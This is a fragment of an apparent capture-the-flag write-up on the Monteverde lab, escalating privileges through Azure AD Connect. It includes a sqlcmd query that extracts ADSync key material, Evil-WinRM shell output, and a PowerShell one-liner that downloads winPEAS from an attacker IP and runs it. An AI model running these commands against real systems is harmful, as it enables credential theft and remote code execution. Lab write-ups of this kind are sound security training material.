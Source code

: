 and we will see the service binary is at
`C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe 

- we can obtain the file and product version, using the command
```sh
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" |
Format-list -Property * -Force
```

- we can manually use sqlcmd to extract the values 
```shell
sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from
mms_server_configuration"
```




![](assets/Monterverde_assets/Pasted%20image%2020231114101704.png)![](assets/Monterverde_assets/Pasted%20image%2020231114135245.png)

```
IEX(New-Object Net.webClient).downloadString('http://10.10.14.20/winPEAS.ps1');FullCheck
```

```
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand
*Evil-WinRM* PS C:\Users\mhope\Documents> dsregcmd.exe /status

+----------------------------------------------------------------------+
| Device State                                                         |
+----------------------------------------------------------------------+

             AzureAdJoined : NO
          EnterpriseJoined : NO
              DomainJoined : YES
                DomainName : MEGABANK

+----------------------------------------------------------------------+
| User State                                                           |
+----------------------------------------------------------------------+

                    NgcSet : NO
           WorkplaceJoined : NO
```